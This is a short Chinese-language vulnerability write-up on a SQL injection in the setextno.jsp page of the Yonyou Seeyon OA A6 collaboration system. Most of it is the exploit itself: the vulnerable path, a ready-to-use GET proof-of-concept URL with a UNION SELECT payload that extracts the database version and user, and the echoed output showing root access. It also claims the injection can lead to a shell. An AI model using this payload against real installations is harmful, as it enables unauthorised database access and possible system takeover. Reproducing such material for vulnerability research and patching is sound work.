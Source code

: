 致远OA A6 setextno.jsp sql注入漏洞
==================================

一、漏洞简介
------------

用友致远A6协同系统SQL注入，union可shell

二、漏洞影响
------------

致远OA A6

三、复现过程
------------

##### 漏洞位置:

    http://www.0-sec.org/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp

##### 漏洞详情:

    版本：A6用友致远A6协同系统SQL注入，union可shell

##### 请求方式:

    Get

##### POC:

    http://www.0-sec.org/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(17) union all select 1,2,@@version,user()%23

##### 回显内容

    5.0.41-community-nt 
    分机号root@localhos
